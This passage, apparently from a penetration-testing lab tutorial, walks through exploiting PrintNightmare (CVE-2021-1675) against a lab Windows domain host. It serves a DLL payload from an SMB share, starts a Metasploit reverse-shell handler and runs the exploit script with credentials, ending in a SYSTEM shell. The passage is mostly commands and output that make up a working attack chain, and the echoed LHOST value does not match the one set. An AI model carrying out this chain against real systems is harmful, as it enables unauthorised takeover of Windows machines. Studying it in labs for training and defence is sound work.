 We will then host this payload in an SMB share we create on our attack host using `smbserver.py`.

### Creating a Share with smbserver.py
```shell-session
$ sudo smbserver.py -smb2support CompData /path/to/backupscript.dll
```

Once the share is created and hosting our payload, we can use MSF to configure & start a multi handler responsible for catching the reverse shell that gets executed on the target.

### Configuring & Starting MSF multi/handler
```shell-session
[msf](Jobs:0 Agents:0) >> use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LHOST 172.16.5.225
LHOST => 10.3.88.114
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set LPORT 8080
LPORT => 8080
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> run

[*] Started reverse TCP handler on 172.16.5.225:8080 
```

With the share hosting our payload and our multi handler listening for a connection, we can attempt to run the exploit against the target. The command below is how we use the exploit:

### Running the Exploit
```shell-session
$ sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```

Notice how at the end of the command, we include the path to the share hosting our payload (`\\<ip address of attack host>\ShareName\nameofpayload.dll`). If all goes well after running the exploit, the target will access the share and execute the payload. The payload will then call back to our multi handler giving us an elevated SYSTEM shell.

```shell-session
[*] Sending stage (200262 bytes) to 172.16.5.5
[*] Meterpreter session 1 opened (172.16.5.225:8080 -> 172.16.5.5:58048 ) at 2022-03-29 13:06:20 -0400

(Meterpreter 1)(C:\Windows\system32) > shell
Process 5912 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
